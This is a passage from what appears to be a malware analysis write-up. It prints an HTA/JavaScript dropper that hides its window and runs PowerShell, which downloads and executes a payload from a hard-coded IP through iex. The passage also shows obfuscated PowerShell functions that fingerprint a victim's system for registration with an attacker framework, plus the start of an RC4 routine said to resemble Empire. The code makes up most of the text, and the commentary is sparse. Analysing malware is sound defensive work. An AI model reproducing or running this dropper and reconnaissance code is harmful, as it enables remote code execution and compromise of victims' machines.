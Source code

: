 ```javascript
</html>'

window.resizeTo(0,0);
var toexecute = "-nop -c while(!(.(Test-Connection "google.com" -q)) {&("Start-Sleep") -s 5} .(iex)(.("New-Object") ("Net.WebClient").("DownloadString").InVokE((http://95.179.252.217/load.php))";
(new ActiveXObject("Shell.Application")).ShellExecute("powershell.exe", toexecute, "", "", 0);
window.close();
```

<h6>The next block is the functions for getting the system and user informations for the registration of the victim to the attacker's framework.</h6>

```csharp
function gET-winVEr {return (&("Get-ItemProperty") (HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion)."pRoDUcTNamE"}
function GeT-BITNEss 
{
  if ( (VaRiAbLE  826 ).ValUe::"sIZE" -eq 4) {return 'x86'}
  return 'x64'
}
function gET-ISiNAD
{
  if ((&("Get-WmiObject") ("Win32_ComputerSystem"))."PARToFdOMAIn" -eq ${TrUe}) { return (&("Get-WmiObject") ("Win32_ComputerSystem"))."DoMAIN"} 
  return ${FAlSE}
}
function gEt-ISloCAlaDmin
{
  [string] ${mE} = &("whoami") ("/groups") ("/fo") ("csv") | &("convertfrom-csv") | &("where-object") { ${_}."SiD" -eq ("S-1-5-32-544") }  // Administrators
  if (${me}.("ToString").Invoke().("Contains").Invoke(BUILTIN\Administrator) {return ${TRUe}} 
  return ${FALSE}
}
function geT-CLieNTiD
{
  return ("AppX") + ( (gi  VARIablE:jEs ).VaLUE::"ToBAse64StriNg"(${encOdING}.("GetBytes").Invoke(${HOSTnaME} + ${USeRnAme} + ${cAMPaiGNID}))).("ToLower").Invoke()
}
function ChEck-REg(${CLIEnTId})
{
  ${PATh} = ${REgisTrYpATh} + ${clieNTId}
  return &("Get-ItemProperty") -Path ${PaTh} -Name ${REGiSTeRedKEY} -ErrorAction ("SilentlyContinue")
}
```

<h6>The following code is the algorithm for decrypt and encrypt in RC4, we can note that the structure and the code are the same that Empire payload, this can be a fork from an Empire framework.</h6>

```csharp
function CoNvErT-RC4 
{
  param(
      [Byte[]]${DaTa},
      [Byte[]]${kEy}
    )
  [Byte[]]${BuFFer} = &("New-Object") ("Byte[]") ${DAta}."LeNgTH"
  ${dAtA}.("CopyTo").Invoke(${BUFFer}, 0)
  [Byte[]]${s} = &("New-Object") ("Byte[]") 256
    [Byte[]]${K} = &("New-Object") ("Byte[]") 256
    for (${i} = 0; ${I} -lt 256; ${I}++)
    {
        ${s}[${i}] = [Byte]${i}
        ${K}[${i}] = ${Key}[${i} % ${KeY}."LENgTh"]
    }
```